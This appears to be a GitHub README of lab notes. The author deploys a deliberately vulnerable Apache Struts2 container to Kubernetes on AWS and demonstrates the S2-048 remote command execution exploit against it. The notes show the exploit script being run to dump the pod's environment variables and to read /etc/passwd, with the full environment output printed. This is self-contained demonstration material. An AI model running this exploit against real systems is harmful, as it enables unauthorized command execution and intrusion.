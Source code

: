 # struts_poc

git clone https://github.com/hook-s3c/apache-struts2-PoC

cd apache-struts2-PoC/

docker build -t struts .

docker run -it --rm -d -p 8080:8080 struts:latest

docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest

#public login to us-west-2 not supported by aws

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws

docker push public.ecr.aws/v9f6i2g3/stuff:latest

kubectl apply -f strust-deploy-and-service.yaml

ubuntu@brett-jumpbox:~/apache-struts2-PoC$ !?get serv
kubectl get service -n struts
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE
struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m
ubuntu@brett-jumpbox:~/apache-struts2-PoC$

ubuntu@brett-jumpbox:~/apache-struts2-PoC$ python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'

KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
STRUTS_PORT_8080_TCP_PORT=8080
STRUTS_SERVICE_PORT=8080
HOSTNAME=struts-7d8c95bbbd-9p9pp
JAVA_HOME=/usr/local/openjdk-8
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5 541FBE7D8F78B25E055DDEE13C370389288584E7 61B832AC2F1C5A90F0F9B00A1C506407564C17A3 713DA88BE50911535FE716F5208B0AB1D63011C7 79F7026C690BAA50B92CD8B66A3AD3F4F22C4FED 9BA44C2621385CB966EBA586F72C284D731FABEE A27677289986DB50844682F8ACB77FC2E86E29AC A9C5DF4D22E99998D9875A5110C01C5A2F6059E7 DCFD35E0BF8CA7344752DE8B6FB21E8933C60243 F3A04C595DB5B6A5F1ECA43E3B7BBB100D811BBE F7DA48BB64BCB84ECBA7EE6935CD23C10D498E23
STRUTS_PORT=tcp://10.100.144.108:8080
PWD=/usr/local/tomcat
TOMCAT_SHA512=612e830913bf1401bc9540e2273e465b0ee7ef63750a9969a80f1e9da9edb4888aa621fcc6fa5ba23cff94a40e91eb97e3f969b8064dabd49b2d0ea29e59b57e
TOMCAT_MAJOR=7
HOME=/root
LANG=C.UTF-8
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
TOMCAT_NATIVE_LIBDIR=/usr/local/tomcat/native-jni-lib
CATALINA_HOME=/usr/local/tomcat
STRUTS_PORT_8080_TCP_PROTO=tcp
SHLVL=0
KUBERNETES_PORT_443_TCP_PROTO=tcp
STRUTS_SERVICE_HOST=10.100.144.108
JDK_JAVA_OPTIONS= --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
KUBERNETES_SERVICE_HOST=10.100.0.1
KUBERNETES_PORT=tcp://10.100.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/tomcat/bin:/usr/local/openjdk-8/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TOMCAT_VERSION=7.0.109
STRUTS_PORT_8080_TCP=tcp://10.100.144.108:8080
JAVA_VERSION=8u292
STRUTS_PORT_8080_TCP_ADDR=10.100.144.108
_=/usr/bin/env

ubuntu@brett-jumpbox:~/apache-struts2-PoC$

curl 127.0.0.1:8080/showcase.action -v

#python3 -m venv .

python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'
![apache_struts_poc](https://user-images.githubusercontent.com/4404271/152885401-97a37adf-6aa8-4b97-847a-c665889b9b60.gif)
